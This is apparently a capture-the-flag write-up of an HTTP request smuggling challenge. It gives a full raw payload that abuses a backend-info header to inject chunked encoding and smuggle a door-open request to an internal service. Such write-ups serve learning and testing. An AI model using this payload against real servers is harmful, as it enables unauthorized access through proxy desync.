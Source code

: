 How to do HTTP smuggling/splitting
how to get multiple http request with one send
Adversary Quest Front Door Writeup Protective Penguin
Challenge:
![](2022-07-30-22-53-02.png)

TLDR:

```POST /api/status?door_id=2 HTTP/1.1
X-Backend-Info: {"Transfer-Encoding":"chunked","Content-Type":"application/x-www-form-urlencoded"}
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: f1337a40-4e8b-4db9-b7da-6cbb05a1dd6d
Host: 192.168.3.15:5000
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 308
Cookie: uid=75d7e5d8b0aa457eab13db9d6a3294af

door_id=2

POST /api/door/open?door_id=2 HTTP/1.1
Cookie: uid=75d7e5d8b0aa457eab13db9d6a3294af
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Host: 127.0.0.1:5001
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

door_id=2
```

You have to get the content-Length well
or you're screwed and the request will wait forever cuz you injected a chunked message

The door number 17 has the flag

![](2022-07-30-22-51-58.png)

First request to check for site health:
![](2022-07-30-22-53-24.png)

Second request to unlock the door:
![](2022-07-30-22-54-01.png)

Third request to get the flag is illustrated first.

The vulnerability is in the ability to set a header in the request that the front end does to the back-end


![](2022-07-30-22-59-04.png)

The /api/status call is vulnerable as you can set the Transfer-Encoding":"chunked flag and send a second request which will be sent by the first server. Using that we send a second request to the door open api
![](2022-07-30-23-12-05.png) 
